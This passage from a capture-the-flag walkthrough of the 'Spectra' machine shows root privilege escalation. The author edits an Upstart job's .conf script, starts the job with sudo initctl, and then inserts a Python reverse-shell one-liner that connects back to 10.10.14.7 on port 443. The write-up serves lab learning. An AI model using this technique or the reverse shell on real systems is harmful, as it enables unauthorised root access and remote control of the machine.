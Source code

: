 ### Upstart POC

The [initctl man page](https://linux.die.net/man/8/initctl) gives a handful of options, like `start`, `stop`, `restart`, and `list`.

As I can edit these `.conf` files, I’ll add a line to the `script` section:

```

script

    exec id > /tmp/0xdf
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

```

The service is currently stopped (and it looks like the box is regularly resetting the conf files and stopping the test services):

```

katie@spectra /etc/init $ sudo initctl status test
test stop/waiting

```

I’ll start it:

```

katie@spectra /etc/init $ sudo initctl start test
test start/running, process 51318

```

Now there’s a file in `/tmp`:

```

katie@spectra /etc/init $ cat /tmp/0xdf 
uid=0(root) gid=0(root) groups=0(root)

```

The service runs my added code as root.

### Shell

To get a shell, I’ll replace the `id` line with the same reverse shell I used earlier:

```

script

    exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

```

